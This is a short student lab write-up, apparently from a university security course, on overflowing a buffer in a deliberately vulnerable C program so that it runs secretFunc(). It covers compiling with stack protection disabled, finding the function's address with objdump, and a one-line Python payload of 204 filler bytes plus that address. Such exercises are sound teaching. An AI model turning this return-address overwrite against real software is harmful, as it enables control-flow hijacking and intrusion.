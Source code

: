 # Lab bof1
Hà Quốc Tiến - 22110075<br>
## Target
- Make the `secretFunc()` run because of buffer-overflow.
## Solution
- Stack frames<br>
![bof1_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof1_1.png)
- In order to run `secretFunc()`, we will have to change the Return Address of `the vuln()` to `secretFunc()` address. So that it will call `secretFunc()`<br>
- We can see in the stack frames, if we want to change the Return Address of `the vuln()`, we have to insert 204 bytes + the address of `secretFunc()`.
## Execution
1. Create `bof1.out` by using ` gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
![bof1_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof1_2.png)
2. Get the address of the `secretFunc()`by using  `objdump -d bof1.out|grep secretFunc`.<br>
![bof1_3](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof1_3.png)
3. Start buffer-overflow, Inserting 204 'a' + the address of `secretFunc()`. In this case is 0x0804846b.<br>
` echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')")| ./bof1.out 1`<br>
the 1 is for argv[1] to not be 0<br>
 ![bof1_4](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof1_4.png)
- The lab is done
